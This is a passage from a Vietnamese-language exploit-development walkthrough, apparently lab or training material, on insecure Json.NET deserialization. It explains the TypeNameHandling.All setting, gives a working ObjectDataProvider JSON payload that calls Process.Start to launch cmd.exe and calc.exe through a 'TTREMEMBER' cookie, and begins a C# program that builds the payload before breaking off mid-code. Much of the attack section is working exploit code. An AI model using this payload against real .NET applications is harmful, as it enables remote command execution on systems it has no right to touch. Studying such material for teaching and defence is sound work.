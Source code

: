 2. **Tuần tự hóa ngược không an toàn:**
   Cookie này sau đó được tuần tự hóa ngược (deserialized) trong phương thức **validateCookieAndReturnUser**, sử dụng **Json.NET** cho việc tuần tự hóa. Cài đặt **TypeNameHandling** rất quan trọng vì nó cho phép các đối tượng như **ObjectDataProvider** được tuần tự hóa ngược và thực thi lệnh:
   ```csharp
   JsonSerializerSettings settings = new JsonSerializerSettings()
   {
       TypeNameHandling = TypeNameHandling.All
   };
   ```

   **TypeNameHandling.All** cho phép các đối tượng mà bộ tuần tự hóa hiểu như những đối tượng thực tế trong .NET, cho phép gọi các phương thức như `System.Diagnostics.Process.Start`, từ đó thực thi mã độc.

---

#### **Phát triển khai thác**

Để khai thác lỗ hổng này, chúng ta cần tạo một đối tượng JSON độc hại sao cho khi nó được tuần tự hóa ngược, sẽ thực thi một lệnh hệ thống như mở **cmd.exe** hoặc **notepad.exe**.

1. **Tạo Payload Khai Thác:**
   Chúng ta sử dụng **ObjectDataProvider** để xác định phương thức cần thực thi (`Start` trên `System.Diagnostics.Process`) và các tham số cho phương thức đó (ví dụ: `"C:\\Windows\\System32\\cmd.exe"`).

   Ví dụ về payload cơ bản:
   ```json
   {
       "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
       "ObjectType": "System.Diagnostics.Process",
       "MethodParameters": {
           "$type": "System.Object[]",
           "$values": [
               "C:\\Windows\\System32\\cmd.exe",
               "/c calc.exe"
           ]
       },
       "MethodName": "Start"
   }
   ```

   Payload này sẽ yêu cầu tuần tự hóa ngược đối tượng để thực thi **calc.exe** thông qua `System.Diagnostics.Process.Start`. Mục tiêu là tiêm payload này vào cookie `TTREMEMBER`.

2. **Tạo và Kiểm tra Payload:**
   Chúng ta có thể viết một chương trình .NET nhỏ để tuần tự hóa đối tượng và tạo payload JSON:
   ```csharp
   using System;
   using System.Windows.Data;
   using Newtonsoft.Json;

   namespace RememberMeExploit
   {
       internal class Program
       {
           static void Main(string[] args)
           {
               ObjectDataProvider odp = new ObjectDataProvider
               {
                   ObjectType = typeof(System.Diagnostics.Process),
                   MethodName = "Start"
               };
               odp.MethodParameters.Add("C:\\Windows\\System32\\cmd.exe");
               odp.MethodParameters.Add("/c calc.exe");

               JsonSerializerSettings settings = new JsonSerializerSettings()
               {
   ```